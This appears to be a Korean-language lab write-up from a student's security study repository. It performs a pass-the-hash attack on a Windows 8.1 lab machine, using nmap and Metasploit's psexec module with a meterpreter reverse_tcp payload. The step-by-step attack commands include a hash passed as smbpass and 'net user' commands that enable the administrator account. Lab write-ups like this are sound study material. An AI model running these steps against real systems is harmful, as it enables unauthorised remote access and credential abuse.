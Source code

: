 # Window 8.1에서 Pass the hash 공격

## 네트워크 동작확인 1
처음으로 우리가 할일은 Kali와 Window 8.1가 연결되어있는지 확인하는 것이다.
이는 아래의 사진과 같이 연결 확인이 가능하다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/Kali%2C%20Win8.1%20%EC%97%B0%EA%B2%B0%ED%99%95%EC%9D%B8.png)

또는 이것이 안되는 경우 다음의 사진을 참고하여 설정을 한다.

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/WIndow%208.1%20%EC%84%A4%EC%A0%95.png)

## 네트워크 동작확인 2
원격접속에 필요한 포트들이 열렸는지 확인하기 위해 다음과 같은 방법을 통해 확인한다.

**nmap (Window8.1의 IP)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/Kali%EC%97%90%EC%84%9C%20Window%208.1%EC%9D%98%20portscan.png)

우리는 위 사진을 통해 원격접속에 필요한 포트들이 모두 열려있음을 알 수 있다.

## NMAP?
NMAP은 port Scanning 툴로써 Host나 Network를 Scanning할 때 아주 유용한 시스템 보안툴인과 동시에, 해커에게 강력한 해킹툴로서 사용할 수 있는 도구이다.
NMAP은 기존의 Port ScanningTool에 비해 다양한 옵션과 방화벽 안쪽의 네트워크도 스캔할 수 있는 강력한 기능이 있다.
</br>

## Window 8.1에서 Window Xp에서 수집한 Password를 통해 Pass the Hash해보기

**msfconsole 을 Kali의 명령창에 입력한다.**

이후 우리는 PsExec(module)을 통해 Pass the Hash를 할 것이다.

**Search psexec**

**use exploit/windows/smb/psexec**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/Window%208.1%20PasstheHash%201.png)

**set payload windows/x64/meterpreter/reverse_tcp**

**show options**

**set RHOST (Window8.1의 IP)**

**set LHOST (Kali의 IP)**

**set smbuser administrator**

**set smbpass 500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/Window%208.1%20PasstheHash%202.png)

**run**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/Window%208.1%20PasstheHash%202.png)

## 하지만 사진에서 보다싶이 공격은 실패한다.
이유는 아직 window 8.1에 관리자의 계정을 활성화 시키지 않기에 이러한 사태가 벌어진다.
따라서 다음과 같이 window 8.1의 관리자의 계정을 활성화하고 비밀번호는 자신이 생각한 비밀번호로 변경한다.

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/Window%208.1%20%EA%B4%80%EB%A6%AC%EC%9E%90%20%EC%84%A4%EC%A0%95.png)

위의 그림과 같이 다음 아래의 명령어를 순차적으로 입력한다.

**net user administrator P$sw0rdY**

**net user administrator /active:yes**

그다음 제어판에서 관리자의 비밀번호를 원하는 비밀번호로 설정한다.
원하는 비밀번호를 설정했다면 아래의 명령어를 다시 실행을 시켜 진행해본다.

**set smbuser administrator**

**set smbpass (변경한 비밀번호: 필자는 arad4228)**

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/%EA%B3%B5%EA%B2%A9.png)

그렇다면 다음과 같은 결과를 얻을 수 있다.

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%208.1/%EA%B3%B5%EA%B2%A9%20%EC%84%B1%EA%B3%B5.png)

위의 사진과 같이 방화벽이 켜져있다면 방화벽에서 해당 공격에 대해 알리고 공격을 멈추게 하며 방화벽이 켜져있지않다면 접속이 됨을 짐작할 수 있다.

### 이를 통한 배운점은?
우리는 MS08-067을 통해  windowXp의 Password Hash를 구할 수  있게 되었다.
앞에서 이야기한것과 같은 방식으로 raindow hash table을 통해 직접 Password를 얻을 수도 있지만 해당 방법과 같이 Hash값을 통해 직접 로그인하는 결과를 얻을 수 있다.
따라서 이러한 공격에 대한 방어 메커니즘이 필요한것을 느낄 수 있고 이러한 방법으로 취약점을 분석할 수 있다는 것을 느낄 수 있는 실습이었다.
</br>
